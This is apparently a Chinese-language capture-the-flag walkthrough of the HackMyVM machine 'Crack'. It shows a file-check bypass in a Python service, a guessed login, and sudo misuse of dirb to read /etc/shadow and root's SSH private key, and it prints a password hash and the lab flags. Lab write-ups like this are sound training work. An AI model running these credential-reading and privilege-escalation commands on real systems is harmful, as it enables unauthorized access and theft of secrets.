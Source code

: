 # Crack

2025.02.26 https://hackmyvm.eu/machines/machine.php?vm=Crack

[video](https://www.bilibili.com/video/BV1BKPGewErb/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT      STATE SERVICE
21/tcp    open  ftp
4200/tcp  open  vrml-multi-use
12359/tcp open  unknown
```

访问 https://192.168.5.39:4200/ 显示的是一个 shell in a box 但是需要输入用户名和密码，目前没有用户凭据。

ftp 可以匿名登陆，/upload 目录权限 777 可以写文件，/upload/crack.py 将其下载，发现就是端口 12359 上运行的 python 文件。

```python
no = "NO"
while True:
        try:
                c.send('File to read:'.encode())
                data = c.recv(1024)
                file = (str(data, 'utf-8').strip())  # 这里输入 /etc/passwd
                filename = os.path.basename(file)    # 这里将返回输入路径的最后一个文件的文件名，如果输入 /etc/passwd 就返回 passwd
                check = "/srv/ftp/upload/"+filename  # 这里变成了 /srv/ftp/upload/passwd
                if os.path.isfile(check) and os.path.isfile(file):  # 这里 /srv/ftp/upload/passwd 和 /etc/passwd 都是存在的文件，直接绕过这个判断读取到 /etc/passwd
                        f = open(file,"r")
                        lines = f.readlines()
                        lines = str(lines)
                        lines = lines.encode()
                        c.send(lines)
                else:
                        c.send(no.encode())
        except ConnectionResetError:
                pass
```

nc 192.168.5.39 12359 输入 crack.py 就可以读取/srv/ftp/upload/中的文件，这里要尝试读取到系统内的其他文件，这里需要绕过这里的代码判断逻辑：os.path.isfile(check) and os.path.isfile(file) 这里上传一个空的 passwd 文件，然后 nc 连接，读取文件 /etc/passwd 这时就绕过了上述的代码判断，读取到了/etc/passwd 文件:

```
['root:x:0:0:root:/root:/bin/bash\n',
'cris:x:1000:1000:cris,,,:/home/cris:/bin/bash\n',
'shellinabox:x:106:112:Shell In A Box,,,:/var/lib/shellinabox:/usr/sbin/nologin\n']
```

这里发现了 2 个用户名 cris 和 shellinabox ，目前没有密码，尝试将用户名当成密码进行登陆。cris:cris 登陆成功。

得到了 user flag：

```
cris@crack:~$ cat user.txt
eG4TUsTBxSFjTOPHMV
```

sudo -l 发现 (ALL) NOPASSWD: /usr/bin/dirb 可以利用 dirb 扫描时传入的参数读取系统中的 root 权限的文件：

```
sudo /usr/bin/dirb http://192.168.5.3 /etc/shadow -v

root:$y$j9T$LVT9GIrLdk5L.xns1akJZ1$wmigJ7er07AT/VwIAuYSZ3j94LOCe8EJHC6d2mlZVo3:19515:0:99999:7:::
```

尝试 john 进行破解，但是没爆出来：

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=crypt
```

这里不能直接读取到/root/root.txt 应该是文件做了变形。

或者探测读取/root/.ssh/id_rsa 私钥文件:

```
sudo dirb http://192.168.5.3/ /root/.ssh/id_rsa -v
```

然后将私钥内容进行格式整理保存，并补齐首位格式：

```
cat tmp|awk -F '192.168.5.3/' '{print $2}'|awk -F ' ' '{print $1}' > root_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
```

然后将私钥上传至目标机器上，127.0.0.1:22 在本地登陆 ssh，最终获得 root flag：

```
root@crack:~# cat root_fl4g.txt
wRt2xlFjcYqXXo4HMV
```
